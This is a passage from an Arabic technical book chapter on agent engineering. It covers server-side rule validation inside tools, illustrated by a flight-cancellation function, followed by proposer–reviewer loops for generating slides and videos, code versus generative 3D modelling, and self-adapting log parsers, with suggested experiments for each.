تتيح كتابة القواعد في موجّه النظام للنموذج **شرح السياسات** للمستخدمين، **تحديد البدائل المتوافقة مع السياسة** (على سبيل المثال، "إعادة الحجز بدلاً من الإلغاء")، وإصدار حكم جدوى أولي قبل استدعاء الأداة.

يوفر تدوين القواعد كأدوات للتحقق ثلاث مزايا: **منطق قرار دقيق لا لبس فيه**؛ **التنفيذ الحتمي**، لذا فإن نفس المدخلات تنتج دائمًا نفس المخرجات؛ والتعامل الفعال مع **مجموعات القواعد المعقدة**، مثل المنطق المنطقي متعدد الشروط، وحسابات الوقت، والتحقق من صحة مصادر البيانات المشتركة.

ومن الناحية العملية، ينبغي استخدامهما معًا: يحتوي موجّه النظام على قواعد اللغة الطبيعية للفهم والتواصل، في حين يتم تجهيز نقاط القرار الرئيسية بأدوات التحقق المقننة التي تعمل بمثابة "حراس البوابة" لضمان الامتثال.

إن القيمة الحقيقية للقواعد المقننة ليست الكفاءة الرمزية ولكن **منع الأخطاء التي لا يمكن الرجوع عنها**. قد يكون من المستحيل التراجع عن إلغاء أمر ما، أو تحويل الأموال، أو حذف البيانات بمجرد تنفيذه. إن التحقق المقنن يضع خط الدفاع الأخير أمام العملية، وقيمة هذا الضمان تفوق بكثير تكلفة تنفيذه.

**الجمع بين التحقق من الصحة والتنفيذ: الاستدلال بدليل قوائم المراجعة؛ التحقق من المرجع الصحيح يحرس البوابة**

بدلاً من إنشاء أداة تحقق منفصلة، ضع التحقق داخل أداة التنفيذ. خذ بعين الاعتبار سياسة إلغاء شركات الطيران من τ-bench، وهو معيار مصمم لتقييم استخدام الأدوات والامتثال للسياسة في سيناريوهات خدمة العملاء المحاكية لشركات الطيران والتجارة الإلكترونية:

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    idempotency_key: str,             # Unique per user cancellation request
    expected_cabin_class: str = None,    # Optional: for model self-check; server uses database ground truth for verification
    expected_has_insurance: bool = None  # Optional: for model self-check; same as above
) -> dict:
    """
    Cancel a flight reservation.

    Cancellation policy (enforced server-side based on database ground truth):
    - Rule 1: Reservations with any used segments cannot be cancelled
    - Rule 2: Reservations can be unconditionally cancelled within 24 hours of booking
    - Rule 3: Flights cancelled by the airline can always be cancelled
    - Rule 4: Business class can always be cancelled
    - Rule 5: Basic economy and economy require travel insurance to be cancelled

    Before calling, please query the order details and check each rule above one by one. The expected_* parameters
    record the basis for your judgment. The server compares them with authoritative data for auditing, but they do
    not affect the policy decision.
    """
    # Lock, re-check, and mutate in one transaction. Repeated requests with the
    # same key return the first result instead of executing twice.
    with db.transaction():
        previous = db.get_idempotent_result(idempotency_key)
        if previous is not None:
            return previous

        # Read authoritative state under a row lock; never trust model-reported values.
        r = db.get_reservation_for_update(reservation_id)
        now = server_clock.now()

        if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
            log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
        if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
            log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

        if r.any_segment_used:
            result = {"success": False, "reason": "Cannot cancel with used segments"}
        else:
            hours_since_booking = (now - r.booking_time).total_seconds() / 3600
            if hours_since_booking < 0:
                return {"success": False, "reason": "Booking time is in the future"}
            if hours_since_booking <= 24:
                reason = "Cancelled within 24-hour window"
            elif r.flight_status == "cancelled_by_airline":
                reason = "Airline cancelled flight"
            elif r.cabin_class == "business":
                reason = "Business class cancellation"
            elif r.cabin_class in ["basic_economy", "economy"] and r.has_insurance:
                reason = f"{r.cabin_class} with insurance"
            else:
                reason = None

            if reason is None:
                result = {"success": False, "reason": "Does not meet cancellation policy"}
            else:
                execute_cancellation(
                    reservation_id,
                    expected_version=r.version,
                    idempotency_key=idempotency_key,
                )
                result = {"success": True, "reason": reason}

        db.store_idempotent_result(idempotency_key, result)
        return result
```

ينبغي فهم قيمة هذا التصميم على مستويين.

**المستوى الأول: المعلمات كقائمة مرجعية للتفكير.** يسرد وصف الأداة سياسة الإلغاء الكاملة ويتطلب من النموذج "الاستعلام عن تفاصيل الطلب والتحقق من كل شرط واحدًا تلو الآخر قبل الاتصال"؛ تحث معلمات `expected_*` الاختيارية النموذج على كتابة الأسباب الخاصة به بشكل صريح. لملء هذه المعلمات، يجب على النموذج أولاً استدعاء أداة الاستعلام للحصول على تفاصيل الطلب والتحقق من كل شرط واحدًا تلو الآخر - وبالتالي فإن ملء هذه المعلمات يعمل بمثابة **قائمة مرجعية إلزامية**. عندما يجد النموذج أن درجة المقصورة اقتصادية ولم يتم شراء التأمين، فقد يلاحظ القاعدة 5 أثناء إعداد المكالمة وبالتالي **يتجنب البدء بها**، وبدلاً من ذلك يخبر المستخدم مباشرةً "لا يمكن إلغاء الدرجة الاقتصادية بدون تأمين. فكر في شراء التأمين قبل إلغاء حجزك أو تغييره". تقوم هذه الطبقة بتوجيه المنطق وتقليل المكالمات غير الصالحة؛ ومع ذلك، فهو ليس حدودًا أمنية. إن قيم `expected_*` هي مجرد ادعاءات تم الإبلاغ عنها ذاتيًا، وليست حقائق يثق بها الخادم.

**المستوى الثاني: جعل المرجع الموثوق على الخادم حارس البوابة.** في التصميم السابق يستعلم الخادم نفسه من قاعدة البيانات عن درجة المقصورة وحالة التأمين ووقت الحجز واستخدام مقطع الرحلة وحالتها، ويأخذ الوقت الحالي من ساعته. **ولا يعتمد أي حكم في السياسة على قيمة يدّعيها النموذج.** ليس ذلك تكرارًا زائدًا؛ فقد يهلوس النموذج أو يتأثر بحقن الموجّهات، وكما بيّن تحليل «الثالوث القاتل»، لا يستطيع طرف يعمل داخل السياق نفسه أن يتحقق من سلوكه باستقلال موثوق.

فلو كانت `cabin_class` أو `has_insurance` أو حتى `current_time` معاملات يملؤها النموذج، لأمكن لقيمة خاطئة واحدة، عفوية أو مستحثة، أن تتجاوز الحارس. لذلك يجب أن يستند خط الدفاع الأخير إلى بيانات لا يستطيع النموذج تزويرها. وهذا ينسجم مع مبدأ أن العمليات الحرجة تحتاج إلى تحقق مستقل؛ والاستقلال هنا لا يعني نموذجًا آخر فحسب، بل مصدر بيانات مستقلًا أيضًا.

وبهذا تكتمل الحماية ذات المستويات الثلاثة: تساعد قواعد اللغة الطبيعية في موجّه النظام على الفهم والتفسير، وتعمل أوصاف الأدوات وتصميم المعاملات كقائمة مراجعة تدفع النموذج إلى فحص الشروط قبل الاستدعاء، ثم يتحقق الخادم بالشفرة من بيانات قاعدة البيانات الموثوقة بوصفه الحارس الأخير. يقلل المستويان الأولان احتمال الخطأ، ويمنع الثالث تحوله إلى خسارة لا رجعة فيها.

> **التجربة 5-3 ★★: تعمل النماذج الصغيرة على تحسين دقة تنفيذ القواعد من خلال المعرفة المستندة إلى التعليمات البرمجية**
>
> **هدف التجربة**: التحقق من أن تشفير قواعد العمل المعقدة في التعليمات البرمجية يؤدي إلى تحسين الدقة والاتساق بشكل كبير في تنفيذ النموذج الصغير (Qwen3-4B) لتلك القواعد.
>
> **النهج الفني**: صمّم تجربة مضبوطة تحاكي خدمة عملاء شركة طيران. تستخدم **المجموعة الضابطة** قواعد مكتوبة باللغة الطبيعية وحدها وتعتمد على استدلال النموذج. أما **المجموعة التجريبية** فتطبق حماية من ثلاثة مستويات: يحتفظ موجّه النظام بالقواعد الطبيعية، ويعرض وصف الأداة السياسة كاملة ويستخدم معاملات `expected_*` الاختيارية كقائمة مراجعة تدفع النموذج إلى فحص كل شرط قبل الاستدعاء، ثم تتحقق الأداة بالشفرة من بيانات قاعدة محاكاة موثوقة؛ فتأخذ حقائق السياسة من القاعدة والوقت من ساعة الخادم، ولا تثق في القيم التي يصرح بها النموذج عن نفسه. قِس معدل نجاح المهمة، وعدد انتهاكات السياسة، واستدعاءات الأدوات غير الصالحة، وتجربة المستخدم.
>
> **النتائج المتوقعة**: تفوق المجموعة التجريبية على المجموعة الضابطة بشكل ملحوظ. والأهم من ذلك، أن النموذج يحدد بشكل مستقل انتهاكات السياسة أثناء إعداد المعلمات ويقدم البدائل دون استدعاء الأداة، مما يوضح قيمة المعلمات كقائمة مرجعية. أخيرًا، قم بقياس معدل عدم التطابق بين قيم `expected_*` المبلغ عنها ذاتيًا وحقيقة قاعدة البيانات لإظهار سبب ضرورة التحقق من جانب الخادم لاكتشاف أخطاء الاستدلال.
>

### إنشاء الوسائط المتعددة المستندة إلى التعليمات البرمجية

ينطوي إنشاء كثير من المستندات المعقدة في جوهره على تنظيم بيانات مهيكلة وعرضها. فسواء كان الناتج عرضًا تقديميًا أو تقريرًا فنيًا أو تطبيقًا تفاعليًا، يمكن تعريف بنيته بالشفرة: يصف HTML الهيكل، ويتولى CSS المظهر، وينفذ JavaScript التفاعل. أما محررات «ما تراه هو ما تحصل عليه» التقليدية فلا تلائم الوكلاء كثيرًا، لأنها تتطلب فهمًا بصريًا وتحريكًا دقيقًا للمؤشر. وبإنشاء المستند برمجيًا يتجنب الوكيل مشقة التموضع البصري، ويحصل على تحكم صريح في موضع كل عنصر ومظهره ومحتواه، مع إمكان تعديلها وتحسينها آليًا.

**وكيل توليد PPT.**

من المعروف أن إنشاء PPT أمر شاق. يمتد العرض التقديمي الأكاديمي النموذجي إلى عشرات الشرائح، تتطلب كل منها تخطيطًا دقيقًا ونقاطًا رئيسية مختصرة ورسومًا بيانية مختارة جيدًا. ومع ذلك، قم بإعادة صياغة عملية إنشاء PPT باعتبارها مشكلة تتعلق بإنشاء التعليمات البرمجية، وسيختفي الكثير من التعقيد. تتبنى أطر العرض الحديثة مثل Slidev فلسفة تصميم أنيقة: تحديد المحتوى في Markdown وHTML. يستغرق إنشاء شريحة بضعة أسطر من العلامات المختصرة، ويتعامل إطار العمل مع العرض والتخطيط والرسوم المتحركة. بالنسبة للوكيل الذي أتقن إنشاء التعليمات البرمجية، فهذه منطقة مثالية.


لكن إنشاء الكود ليس كافيًا. **بمجرد قيام الوكيل بكتابة التعليمات البرمجية، ليس لديه أي فكرة عن كيفية ظهور النتيجة فعليًا**: المحتوى مزدحم جدًا، والنص يفيض، والصور بحجم خاطئ - لا شيء من هذا مرئي حتى يتم عرض الشرائح فعليًا. لذلك، هناك حاجة إلى آلية **مقترح-مراجع** (كما هو موضح في الشكل 5-5) لتعيين إنشاء التعليمات البرمجية ومراجعة الجودة لوكيلين مستقلين:

- **وكيل المقترح** مسؤول عن إنشاء كود Slidev، وفهم البنية المنطقية للمحتوى، وتقسيمه إلى صفحات معقولة.
- يقوم **وكيل المراجع** بتشغيل التعليمات البرمجية لعرض كل صفحة كصورة، ويستخدم Vision LLM (نموذج كبير متعدد الوسائط يمكنه "رؤية" الصور) لتقييم الشرائح المقدمة من حيث كثافة المحتوى وسهولة القراءة وجودة التخطيط والجاذبية المرئية، وإنشاء **اقتراحات تحسين منظمة** - ليست غامضة "لا تبدو جيدة"، ولكنها إرشادات محددة وقابلة للتنفيذ (على سبيل المثال، "الصفحة 3: الكثير من المحتوى، ضع في اعتبارك "تقسيم"؛ "الصفحة 7: خط كتلة التعليمات البرمجية صغير جدًا، نقترح زيادته إلى 14 نقطة")، بما في ذلك الحقول مثل رقم الصفحة ونوع المشكلة وخطورتها.

يتلقى مقدم العرض الملاحظات، ويفسرها، ويعدل الكود، ويعيد إرسال الإصدار الجديد إلى المحكم. تستمر هذه الدورة حتى يفي العرض التقديمي بمعايير الجودة أو يتم الوصول إلى الحد الأقصى لعدد التكرارات (على سبيل المثال، خمس جولات). "الجودة تلبي المعايير" و"الحد الأقصى للجولات" هما بالضبط نوعان من شروط التوقف الصريحة التي تتطلبها هندسة الحلقات: الأول يتيح للمراجع أن يقرر أنه تم الوصول إلى الهدف؛ هذا الأخير عبارة عن حد أقصى للميزانية يمنع الحلقة من الهروب.

تتبع حلقة المقترح والمراجع هنا نفس النمط الذي تتبعه آلية **الموافقة المسبقة** في الفصل 4: يقوم أحد الوكلاء بإنشاء وكيل آخر ويقوم بالتقييم بشكل مستقل. يختلف التطبيقان في الغرض وسير العمل. يستخدم الفصل الرابع النمط للموافقة على عملية واحدة لا رجعة فيها أو رفضها؛ هنا، يؤدي ذلك إلى تحسين المحتوى التكراري عبر جولات متعددة، حيث يرى المراجع أن المخرجات المعروضة غير متاحة لمقدم العرض. مبادئ التصميم الأساسية متسقة (قيود الأهداف المشتركة، استخدام عائلات نموذجية مختلفة لتقليل احتمالية حدوث أخطاء مماثلة، التغذية الراجعة كحدث خاص يضاف إلى مسار مقدم العرض). تكمن **الميزة الأساسية** لاستخدام تقسيم العمل ثنائي الوكيل بدلاً من حلقة الوكيل الفردي في **إدارة السياق**: يقوم المراجع بمعالجة الصور المقدمة لأحدث إصدار فقط، دون أن تتأثر بالإصدارات التاريخية؛ يقوم مقدم الاقتراح بتجميع التعليقات النصية المنظمة فقط، مما يستهلك عددًا أقل من الرموز ويجعل التفكير أسهل. سيحتاج حل الوكيل الفردي إلى تجميع الصور المقدمة من جولات متعددة لعشرات الصفحات في نفس السياق، مما يتجاوز حد السياق بسرعة. سيتم إعادة استخدام هذه الآلية في التجارب اللاحقة على تحرير الفيديو وتصور السجل؛ سوف يستكشف الفصل العاشر أيضًا أوضاع التعاون الأخرى متعددة الوكلاء بما يتجاوز نموذج المقترح والمراجع.

> **التجربة 5-4 ★★: إنشاء ملف PPT تلقائيًا من الأوراق**
>
> **هدف التجربة**: إنشاء عروض تقديمية عالية الجودة تلقائيًا من الأوراق الأكاديمية، والتحقق من فعالية آلية المقترح والمراجع في مراقبة جودة إنشاء المحتوى.
>
> **النهج الفني**: استخدم إطار عمل Slidev. يقوم وكيل المقترح بقراءة ملف PDF الورقي، واستخراج بنية الفصل، والوسائط الأساسية، والأشكال، وتخطيط بنية PPT، وإنشاء صفحة رموز Slidev تلو الأخرى. **الخطوة الأساسية**: يعرض وكيل المراجع كل شريحة ويلتقط لقطة شاشة، ثم يستخدم Vision LLM لتقييم النتيجة فيما يتعلق بتجاوز النص وازدحام المحتوى وحجم الصورة غير المناسب. يقوم المقترح والمراجع بالتكرار حتى يفي العرض التقديمي بمعايير الجودة.
>
> **معايير القبول**: قم بإنشاء 10-20 شريحة تغطي المساهمات الرئيسية في الورقة. قم بتضمين ما لا يقل عن 3 أشكال أصلية تطابق النص المصاحب. لا يوجد تجاوز للنص في العرض، تخطيط معقول. قارن استهلاك السياق وجودة التوليد بين المراجعة الذاتية للوكيل الواحد وتقسيم العمل بين المقترح والمراجع.
>
> **التجربة 5-5 ★★: الإنشاء التلقائي لمقاطع الفيديو التوضيحية الورقية**
>
> **هدف التجربة**: توسيع إمكانيات إنشاء PPT، والجمع بين القنوات المرئية والسمعية لتحقيق الإنشاء التلقائي لمقاطع الفيديو التوضيحية.
>
> **النهج الفني**: بناءً على سير عمل العرض التقديمي من التجربة 5-4، يقوم الوكيل أيضًا بإنشاء رواية محادثة لكل شريحة - لتوجيه المشاهد بدلاً من تكرار نص الشريحة - ويستخدم TTS (تحويل النص إلى كلام) لتجميع الصوت، ويجمع بين صور الشرائح والصوت مع FFmpeg لإنتاج الفيديو النهائي.
>
> **معايير القبول**: قم بإنتاج مقطع فيديو مدته من 5 إلى 15 دقيقة، حيث يتطابق وقت عرض كل شريحة بدقة مع السرد الخاص بها ويتوافق السرد مع العناصر المرئية.
>
>
> 
>
>

**وكيل تحرير الفيديو.**

يمثل تحرير الفيديو من خلال واجهة استخدام الكمبيوتر للأغراض العامة عقبة أساسية: تعد واجهات المستخدم الرسومية لتحرير الفيديو معقدة للغاية - كثيفة بالجداول الزمنية والطبقات ولوحات التأثيرات. يجب على الوكيل تحديد موقع هذه العناصر ومعالجتها باستخدام الماوس ولوحة المفاتيح، الأمر الذي يتطلب إحداثيات دقيقة تكافح النماذج لإنتاجها.

إن إعادة صياغة تحرير الفيديو من خلال مكالمات API وإنشاء التعليمات البرمجية يؤدي إلى تقليل التعقيد بشكل كبير. توفر العديد من أدوات البرامج الاحترافية (مثل Blender - أداة إنشاء ثلاثي الأبعاد وتركيب الفيديو مفتوحة المصدر تدعم البرمجة النصية Python؛ FFmpeg - سكين الجيش السويسري لسطر الأوامر لمعالجة الصوت/الفيديو) واجهات API برمجية تعرض الوظائف الأساسية بطريقة منظمة وقابلة للتركيب. على سبيل المثال، يتيح Blender Python API التحكم الدقيق في العمليات مثل الاستيراد والتشذيب والترتيب وإضافة تأثيرات الانتقال ومزج الصوت لمقاطع الفيديو، حيث تتوافق كل عملية مع استدعاء وظيفة واضح. بالنسبة للوكيل، يعد تحويل متطلبات اللغة الطبيعية إلى استدعاءات API أسهل بكثير من فهم واجهة المستخدم الرسومية (GUI) ومحاكاة نقرات الماوس. كما هو الحال مع إنشاء PPT، يعتمد تحرير الفيديو أيضًا آلية Proposer-Reviewer - يقوم وكيل الاقتراح بإنشاء نصوص Blender، ويعرض وكيل المراجع الإطارات الرئيسية ويستخدم Vision LLM للتحقق من التأثير، وتقديم تعليقات للتعديل.

> **التجربة 5-6 ★★: تحرير الفيديو الذكي المستند إلى API**
>
> **هدف التجربة**: التحقق من قدرة الوكيل على إجراء تحرير الفيديو عن طريق إنشاء كود Blender Python API، وتقييم دور آلية Proposer-Reviewer المستندة إلى الرؤية في معالجة محتوى الوسائط المتعددة.
>
> **التحدي الأساسي**: فهم متطلبات تحرير اللغة الطبيعية للمستخدم وتحويلها إلى تسلسلات دقيقة لاستدعاءات API، والتعامل مع عمليات التحرير المختلفة (الاقتطاع، والدمج، والعناوين الفرعية، ومزج المسارات الصوتية، والمؤثرات المرئية)، والتأكد من تنفيذ البرنامج النصي Python بشكل صحيح. بعد أن يكتب وكيل المقترح الكود، لا يمكنه الحكم مباشرة على تأثير الفيديو؛ يجب أن تعتمد على وكيل المراجع لعرض واستخدام Vision LLM للتحقق من الإطارات الرئيسية.
>
> **النهج الفني**: يقدم المستخدم مواد فيديو (على سبيل المثال، لقطات أولية تحتوي على مشاهد مثل ركوب الأمواج والمشي لمسافات طويلة والتزلج) ويصف المتطلبات باللغة الطبيعية (على سبيل المثال، "قص جزء ركوب الأمواج"). يستخدم وكيل المقترح وكيلًا فرعيًا لتحليل الفيديو مع **استراتيجية الترجمة المكونة من خطوتين**:
>
> **الخطوة 1، الترجمة التقريبية**: اتصل بالوكيل الفرعي مع مسار الفيديو، وفاصل زمني لأخذ عينات الإطار مدته 10 ثوانٍ، والسؤال المستهدف. يستخدم الوكيل الفرعي ffmpeg لالتقاط الإطارات في هذا الفاصل الزمني، ويرسل لقطات الشاشة والسؤال إلى Vision LLM، ويعيد الفاصل الزمني للمشهد (على سبيل المثال، "يتراوح ركوب الأمواج بين 40-110 ثانية").
>
> **الخطوة 2، الترجمة الدقيقة**: اتصل بالوكيل الفرعي مرة أخرى عبر نطاق أضيق وأخذ عينة من إطار واحد في الثانية لتحديد الحدود بدقة.
>
> يؤدي تغليف تحليل الفيديو كوكيل فرعي إلى منع عدد كبير من لقطات الشاشة من احتلال سياق الوكيل الرئيسي. بعد الترجمة، يقوم مقدم العرض بإنشاء البرنامج النصي Blender API. يقوم وكيل المراجع بإجراء معاينة سريعة، والتحقق من الإطارات الرئيسية، وتقديم تعليقات للتعديل، والتكرار حتى يتم استيفاء المعيار قبل العرض الكامل.
>
> **معايير القبول**: يستطيع الوكيل تحديد المشاهد المختلفة في الفيديو بدقة وإنشاء نصوص تحرير بشكل صحيح بناءً على تعليمات اللغة الطبيعية. نقاط البداية والنهاية دقيقة (خطأ خلال 3 ثواني). إذا كانت التعليمات تتضمن متطلبات تأثيرات خاصة (حركة بطيئة، انتقالات، ترجمة)، فإن الفيديو الذي تم إنشاؤه يطبق التأثيرات بشكل صحيح. يستطيع وكيل المراجع اكتشاف الأخطاء الواضحة (المحتوى الأساسي المفقود، بما في ذلك الأجزاء غير ذات الصلة) وإجراء التصحيحات. يحتوي ملف الفيديو الناتج النهائي على التنسيق الصحيح ويلبي الجودة المتوقعة.
>

**الأجسام ثلاثية الأبعاد والقطع الصناعية: الحد الفاصل بين توليد الشفرة والنماذج المولّدة.**

فمهمة «توليد شيء ما» تضع الوكيل أمام طريقين: أحدهما كتابة شفرة تبني الشيء بدقة (CadQuery وOpenSCAD وBlender API)، والآخر استدعاء نموذج توليد ثلاثي الأبعاد مباشرة (نماذج تحويل النص/الصورة إلى نموذج ثلاثي الأبعاد من فئة Hunyuan 3D، وهي تنتمي إلى سلالة diffusion نفسها التي تنتمي إليها نماذج تحويل النص إلى صورة). ويحار كثيرون: متى ينبغي استخدام توليد الشفرة، ومتى ينبغي استخدام نماذج توليد الصور/الأجسام ثلاثية الأبعاد؟

**أولًا، انظر إلى ما إذا كان للناتج وصف دقيق مضغوط.** تتمتع القطع الصناعية بطبيعتها بوصف دقيق مضغوط. فالفلنجة الواحدة - قطرها الخارجي وسماكتها وقطر دائرة مواضع الثقوب وقطر الثقوب وعددها - يحددها خمسة أو ستة معاملات تحديدًا كاملًا، والشفرة تعبير **لا فقد فيه** عنها. أما نبتة منزلية أو صخر تايهو أو وجه إنسان فالأمر مختلف - فهي تحوي تفاصيل لا تُحصى، **وتعقيدها الداخلي شبه لا نهائي**.

**ثانيًا، انظر إلى متطلبات الدقة وقابلية التحقق.** كل بُعد من أبعاد القطعة قيد صارم - قطر ثقب 5 مم وسماحية ±0.05 مم، وأي انحراف طفيف يعني قطعة مرفوضة. ويمكن التحقق من القطعة المولّدة بالشفرة برمجيًا: حمّل الشبكة، وقِس القطر الخارجي ومواضع الثقوب، وقارنها بالمواصفات بندًا بندًا. أما القطعة التي يولدها نموذج التوليد ثلاثي الأبعاد فلا يمكن مطابقتها مباشرة مع المواصفات.

ثمة فرق عملي آخر بين الطريقين: **شكل التمثيل وقابلية التحرير**. فعمليات التصنيع تتطلب مجسمات بارامترية بتمثيل B-rep (التمثيل الحدّي) - فملف STEP يخزن شجرة الميزات ومعاملات الأبعاد، ويمكنه قيادة التصنيع بـ CNC مباشرة. أما ما يُخرجه نموذج التوليد ثلاثي الأبعاد فهو شبكة أوجه مثلثية: تُقارَب الأسطح المنحنية بعدد لا يحصى من الأوجه الدقيقة، وتبدو عند التكبير مليئة بالحفر والنتوءات. وحين يقول العميل «غيّر ثقوب التثبيت من M5 إلى M6»، يتضح الفرق: في مسار الشفرة تغيّر رقمًا واحدًا وتعيد التشغيل، فتبقى بقية الأبعاد مطابقة تمامًا؛ أما في مسار النموذج المولّد فلا خيار سوى إعادة التوليد بالكامل - وهل تنحرف بقية الأبعاد معه أم لا، فذلك رهن بالحظ.

لذلك فإن اختيار الطريق نفسه قرار على الوكيل اتخاذه: يزن التعقيد الداخلي للناتج ومتطلبات الدقة، ثم يسند المهمة إلى توليد الشفرة أو إلى نموذج التوليد ثلاثي الأبعاد. وفي الأنظمة الفعلية يمكن المزج بين الطريقين - تُولَّد الهندسة بالشفرة البارامترية، ويُترك قوام الأسطح للنموذج المولّد، فيؤخذ من كلٍّ أحسن ما فيه.

> **التجربة 5-7 ★★: مساران لتوليد القطعة نفسها - الشفرة والنموذج المولّد**
>
> **هدف التجربة**: أخذ قطعة ميكانيكية واحدة ذات مواصفات أبعاد، ومقارنة مساري توليد الشفرة ونموذج التوليد ثلاثي الأبعاد في دقة الأبعاد وقابلية التحرير والصلاحية للتصنيع، للتحقق من إطار الحكم القائل بـ «اختيار المسار بحسب التعقيد الداخلي ومتطلبات الدقة».
>
> **النهج الفني**: طلب بلغة طبيعية ذو مواصفات واضحة (مثل «فلنجة بقطر خارجي 80 مم وسماكة 10 مم، مع 4 ثقوب تثبيت M5 موزعة بالتساوي على دائرة قطرها 60 مم»). **المسار A**: يكتب الوكيل شفرة CadQuery (أو OpenSCAD) لبناء القطعة، ويصدّرها بصيغتي STEP وSTL. **المسار B**: تُسلَّم المواصفات نفسها إلى نموذج توليد ثلاثي الأبعاد (مثل Hunyuan 3D) للحصول على شبكة أوجه مثلثية. **التحقق البرمجي**: قياس انحراف الأبعاد الرئيسية (القطر الخارجي والسماكة ومواضع الثقوب وأقطارها) في ناتجَي المسارين عن المواصفات، وفحص استواء سطح التثبيت.
>
> ثم يُرسل طلب التغيير «تعديل ثقوب التثبيت من M5 إلى M6»، وتُسجَّل كلفة التعديل في كل مسار - في مسار الشفرة يُغيَّر معامل واحد ويُعاد التشغيل، أما مسار النموذج المولّد فلا يمكنه سوى إعادة التوليد بالكامل، ولا يمكن ضمان بقاء بقية الأبعاد دون تغيير.
>
> **مجموعة المقارنة**: توليد نبتة منزلية، حيث تنعكس أفضلية المسارين تمامًا - فمسار الشفرة يبقى جامدًا مصطنعًا حتى مع إضافة ضوضاء برمجية، بينما يأتي مسار النموذج المولّد طبيعيًا ونابضًا بالحياة.
>

### الشفرة بوصفها موائمًا للأنظمة

تنتج التعليمات البرمجية الموجودة في الأقسام السابقة في الغالب أشياء "تواجه الإنسان" مثل التقارير والشرائح والواجهات. يشير الرمز الموجود في هذا القسم إلى اتجاه آخر: **توصيل جهاز إلى جهاز**. في الأنظمة الحقيقية، غالبًا ما لا تحتوي الخدمات الخارجية التي يجب على الوكيل التحدث إليها على مجموعة أدوات تطوير (SDK) جاهزة، ونادرًا ما تكون واجهاتها مرتبة - قد تكون الوثائق مفقودة، وقد تكون تنسيقات الاستجابة غير قياسية، وقد تتنقل الحقول عبر الإصدارات. لا يحتاج الوكيل إلى انتظار محول تم إنشاؤه مسبقًا. يمكنه قراءة وثائق API أو فحص بعض الاستجابات الحقيقية، ثم إنشاء المحول عند الطلب: إنشاء عميل HTTP، وتجميع رؤوس المصادقة، وتحليل بنية الاستجابة غير القياسية، وترجمة نموذج البيانات الأولية إلى شكل يمكن أن يستهلكه المصب. الكود هنا هو "غراء عالمي" لربط الأنظمة العشوائية - حيثما توجد فجوة، يتم إنشاء قطعة من الغراء عند الطلب لملئها. هذا هو قلب اتجاه "واجهة النظام" الخاص بالقدرة الوصفية. إن تحليل السجل التكيفي الذي تم تطويره أدناه هو هذه القدرة التي أصبحت ملموسة في إعداد إمكانية المراقبة: في مواجهة تنسيقات السجل التي لا تتوقف أبدًا عن التطور، يتكيف الوكيل أيضًا عن طريق إنشاء كود التحليل بسرعة.

يمكن أن يمتد هذا "اللاصق العالمي" أيضًا إلى **الأنظمة التي لا تحتوي على API على الإطلاق**: عندما يكشف نظام خارجي فقط عن واجهة رسومية، يمكن للوكيل أولاً تشغيل الواجهة من خلال استخدام الكمبيوتر (المفصل في الفصل 6)، ثم ترسيخ تسلسل التشغيل الناجح في أداة RPA في التعليمات البرمجية - في المرة التالية التي تظهر فيها نفس المهمة، فإنه ببساطة يقوم بتشغيل التعليمات البرمجية، بسرعة وثبات، دون الحاجة إلى تفكير بصري باهظ الثمن. يمكن القول إن RPA هو محول النظام الذي تم نقله إلى أقصى الحدود: محول للأنظمة التي لا تحتوي على واجهة برمجية. تم تطوير آلية "تسجيل سير العمل وترسيخه" في الفصل التاسع.

تعد معالجة البيانات من بين المهام الأكثر شيوعًا - والأكثر إرهاقًا - في أنظمة البرمجيات. السبب الجذري هو أن تنسيقات البيانات متنوعة ولا تتوقف أبدًا. قد يغير نظام واحد تنسيقاته عدة مرات أثناء تطوره - حقول جديدة، وتداخل مُعاد هيكلته، وأنواع جديدة. تحمل كتابة المحلل اللغوي يدويًا لكل تنسيق تكلفة صيانة باهظة: كل تغيير يعني تحديث منطق التحليل واختبار التوافق وشحن إصدار جديد.

يقدم إنشاء التعليمات البرمجية نهجًا مختلفًا تمامًا: عندما يلتقي الوكيل بتنسيق جديد، فإنه يقوم بإنشاء كود تحليل سريعًا من بيانات العينة، وبالتالي يتتبع النظام تطور التنسيقات تلقائيًا، دون أي تدخل بشري.

**تحليل وتصور سجل الوكيل.**

تعتمد إمكانية ملاحظة أنظمة الوكيل على تصور تدفقات التنفيذ. قد تتضمن مهمة الوكيل المعقدة مئات الخطوات، بما في ذلك استدعاءات LLM المتعددة، وعشرات عمليات تنفيذ الأدوات، والتفاعلات بين العديد من الوكلاء الفرعيين. يواجه تصوير هذه البيانات تحديات متعددة: حيث تقوم منظومات التشغيل المختلفة بإرجاع البيانات في هياكل مختلفة، وتتطور التنسيقات مع تكرارات النظام؛ قد يحتوي المسار الكامل على مئات الآلاف من الأحرف، مما يتطلب التوازن بين النظرة العامة والتفاصيل.

يقدم إنشاء التعليمات البرمجية حلاً أنيقًا: إنشاء حلقة ملاحظات للإصلاح التلقائي. عندما تواجه الواجهة الأمامية تنسيق سجل غير قابل للتحليل، فبدلاً من عرض خطأ، تقوم تلقائيًا بإبلاغ معلومات الفشل (نموذج سجل أولي، خطأ تفصيلي) إلى الوكيل. يقوم الوكيل بتحليل بنية بيانات العينة وإنشاء كود الواجهة الأمامية الذي يمكنه تحليلها بشكل صحيح. يتم اختبار الكود تلقائيًا لأول مرة في متصفح افتراضي للتحقق من صحة التحليل، بينما يقوم Vision LLM بتقييم التصور. إذا اجتاز كلا الفحصين، فسيتم نشره على الواجهة الأمامية كتحديث ساخن.

> **التجربة 5-8 ★★★: نظام تحليل السجل التكيفي**
>
> **هدف التجربة**: إنشاء نظام تصوري لسجل الوكيل ذاتي التطور.
>
> **النهج الفني**: النظام الأولي يدعم التنسيقات الأساسية فقط. تكتشف الواجهة الأمامية فشل التحليل ← تقارير إلى الوكيل ← إنشاء كود التحليل ← اختبار المتصفح الافتراضي ← نشر التحديث السريع. العملية برمتها مؤتمتة.
>
> **معايير القبول**: اكتشاف حالات الفشل تلقائيًا وتحفيز التعلم، وإنشاء تعليمات برمجية تجتاز الاختبارات الآلية، وتحليل التنسيقات الجديدة بشكل صحيح بعد التحديث السريع.
>

**التحليل التلقائي وتشخيص المشكلات لسجلات تنفيذ الوكيل.**

